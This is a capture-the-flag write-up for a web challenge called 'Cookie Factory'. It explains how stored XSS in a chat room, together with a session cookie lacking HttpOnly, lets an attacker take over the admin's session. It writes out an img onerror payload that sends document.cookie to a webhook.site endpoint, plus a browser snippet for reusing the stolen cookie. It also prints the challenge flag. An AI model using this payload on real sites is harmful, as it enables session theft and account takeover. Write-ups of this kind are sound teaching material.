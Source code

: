 
# 🧁 Cookie Factory - CTF Writeup

## Challenge Info
- **Name:** Cookie Factory
- **Category:** Web Exploitation

---

## 📝 Challenge Description
> Welcome to the Cookie Factory!
> Here, every visitor gets their very own cookie. Some are sweeter than others.
> You can chat with our friendly admin, who loves reviewing your creative messages.
> Legend says... there’s a *special* cookie you’d want to get your hands on.

**Goal:**
Steal the admin's session cookie and use it to access their dashboard to retrieve the flag.

---

## 🔎 Recon & Source Analysis
Visiting the site reveals:
- A simple **Register/Login** system.
- A **Dashboard with Chat Room** after login.
- A **Changelog page** with flavor text.
- Regular users can send messages to the chatroom.
- Admin has a special flag in their dashboard.

Through casual testing:
- Messages are reflected back verbatim in the chatbox.
- HTML tags like `<b>` or `<img>` are rendered.
- However, `<script>` tags appear ignored (likely parsed inside a `<p>`).

Checking cookies:
- **Session cookie is not HttpOnly.**
- Browser devtools show: `session=...` accessible via `document.cookie`.

---

## 💡 Vulnerability Hypothesis
Given the description and behavior:
- **Persistent XSS** is possible through message injection.
- **Admin bot refreshes the dashboard to read new messages.**
- If malicious scripts can be executed in admin's context, session hijacking is viable.
- Since **HttpOnly is false**, JS can exfiltrate admin's session cookie.

---

## 🛠️ Exploit Strategy
1. **Bypass ineffective `<script>` injection:**
   - Injecting `<script>` blocks won’t execute due to the way messages are embedded into the DOM.
   - However, attribute-based XSS vectors (`<img src=x onerror=...>`) are promising.

2. **Craft a payload to steal admin's cookie:**
   ```html
   <img src=x onerror="fetch('http://webhook.site/abc123?c='+document.cookie)">
   ```
   - Leverages a broken image triggering `onerror`.
   - The malicious JS fetches the admin's `document.cookie` and exfiltrates it to RequestBin.

3. **Admin bot behavior:**
   - The bot will load the dashboard and render the message.
   - The XSS triggers in **admin's browser context**.
   - The stolen cookie is sent to the attacker's endpoint.

---

## 🎯 Execution
1. Register as a normal user.
2. Submit the crafted payload via chat.
3. Observe RequestBin (or equivalent webhook service).
4. Receive admin's session cookie.
5. Manually set your browser's `document.cookie` to admin's session:
   ```javascript
   document.cookie = "session=admin-session-value";
   location.reload();
   ```
6. Upon refreshing, you'll be authenticated as admin.

---

## 🎉 Getting the Flag
After hijacking admin's session:
- Visit `/dashboard`.
- The admin-only flag becomes visible:
  ```
  pecan{d3l1c10u5_c00k135_55bMgl9j5BIl}
  ```

---

## 🧠 Root Cause Analysis
| Cause | Explanation |
|--------|-------------|
| **HttpOnly misconfiguration** | Allowed JS-accessible session cookies |
| **Lack of output sanitization/escaping** | Enabled persistent XSS via attribute injection |

---

